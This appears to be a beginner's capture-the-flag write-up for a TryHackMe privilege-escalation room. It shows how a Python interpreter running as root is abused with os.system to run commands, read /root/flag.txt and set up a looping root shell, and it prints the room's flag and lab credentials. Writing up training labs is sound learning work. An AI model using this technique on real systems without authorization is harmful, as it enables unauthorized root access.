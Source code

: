 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
 
# This is my first Write-up but a simple one to preform.


# lets get in the machine and open python 
SSH Credentials - user:password

so there is a trick to gain an easy shell with the help of python
first we have to see if python has root premonition so we could exploit it
 
$ python
'''
>>>
'''

great we got python install lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders
but for us its just a convenient way to get a shell

we only need to init just one library for OS commands
>>> import os

now, lets see if we are root. (euid = 0:root)

>>> geteuid()
'''
0
'''

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

>>> os.system("whoami")
'''
root
0
'''

note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

to get the flag we will do the following

>>> os.system("cat /root/flag.txt")
'''
THM{3asy_f14g_1m40}
'''
 
# -------------------------------------------------------------------------------
# bonus:

do you want to make your life easyer? (that's what python ment for)
 
>>> def A(i):
...     os.system(i)
press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

A('whoami')
'''
root
0
'''

"test"

# Even better:

while True:
	i = input('CMD: ')
	os.system(i)
press return key (enter)

'''
CMD: 
'''
now we got ourself a loop and created our-self an easy root shell!

Hye! if you done the bonus why not get in to a python course?